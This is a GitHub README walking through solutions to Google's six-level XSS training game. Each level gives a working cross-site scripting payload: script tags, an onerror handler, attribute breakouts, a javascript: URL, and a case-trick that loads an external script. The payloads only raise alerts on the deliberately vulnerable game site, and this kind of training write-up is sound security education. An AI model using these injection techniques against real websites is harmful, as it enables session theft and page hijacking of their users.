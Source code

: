 # XSS-game by Google

Google has created 6 level interactive XSS game. 
[Click here to start playing](https://xss-game.appspot.com/ "XSS game area")

If you can pass all the challenges, you will be rewarded with an appealing cake! <img class="emoji" title=":smiley:" alt=":smiley:" src="https://assets-cdn.github.com/images/icons/emoji/unicode/1f603.png" height="20" width="20" align="absmiddle">

## Level 1: Hello, world of XSS
In this level you will learn what happens to the application if you use input from user directly without proper escaping.

### Solution

```html
<script>alert("Level1");</script>
```


## Level 2: Persistence is key
Similar to level 1. But this time directly inserting `<script>` tag will not work.

### Solution

```html
<img src="demo" onerror='javascript:alert("Level2");' />
```


## Level 3: That sinking Feeling
There is no input field in thie level. But still Cross Site Scripting is possible via the address path as the JavaScript code directly uses `self.location.hash.substr(1)`. It is the url part after the `#` sign.

### Solution

Simply inject the following: 

```javascript
https://xss-game.appspot.com/level3/frame#'onerror='alert("Level3")'
```


## Level 4: Context matters
The code passes user value directly to `onload="startTimer('{{ timer }}');"` method. Thus we can exploit the script. 

### Solution

Add the following part in the input field.

```
');javascript:alert('Level4
```


## Level 5: Breaking protocol
This is the most tricky challenge. Here some templates are connected in chain by storing the `next` URL in a variable. So, if we can somehow change the value of `next` variable then XSS will work.

### Solution

So we simply change the URL to:
 
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('Level5')

Press GO which will change the URL of Next button to javascript:alert('Level5').

Finally press the Next button.
```


## Level 6: Follow the rabbit
Do you know `regular expression`? If the answer is `yes` what do you think the following code snipper will do?

```javascript
url.match(/^https?:\/\//)
```
Yeah! You are right. It will return true if `url` variable starts with `http. What happen if `url` starts with `HTTP`?

If you do not know `regex`, start learning from 
[Learn Regular Expressions with simple, interactive exercises](https://regexone.com/ "RegexOne,
Learn Regular Expressions with simple, interactive exercises.")

### Solution

```html
https://xss-game.appspot.com/level6/frame#HTTPS://arsho.github.io/rough/alert.js
```


## Congratulation! Let's eat the cake!!

![alt xss_cake](https://raw.githubusercontent.com/arsho/xss_game/master/screenshot/xss_game_cake.png)

<hr>

Author: [https://arsho.github.io](Ahmedur Rahman Shovon)
